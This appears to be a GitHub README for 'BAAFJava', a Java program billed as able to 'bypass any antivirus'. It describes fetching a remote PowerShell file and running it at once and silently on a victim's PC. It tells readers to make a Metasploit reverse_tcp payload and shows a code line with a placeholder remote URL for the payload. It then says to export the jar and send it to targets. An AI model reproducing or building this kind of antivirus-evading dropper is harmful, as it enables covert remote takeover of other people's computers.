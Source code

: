 # BAAFJava
Bypass Any Antivirus Firewall
Metaesploit powershell exec in java, bypass any antivirus. 

Bypass any anti-virus with powershell payload,
this shit get the txt uploaded powershell and insta-execute on the victim pc,

	-> u can create the powershell reverse_tcp payload script on the metasploit framework
	 Script dont open the cmd console
	 Created by Gabriell H. Foda-se Use por sua responsabilidade!
	 ______________________________________________________________________________
	 
	private static final String HTTP = "http://xxx.xxx.xx.xx.xx:8080/xxx.txt";
                              You need to change this url /\ /\ /\
	
And export jar file and send it. Be fun.
	
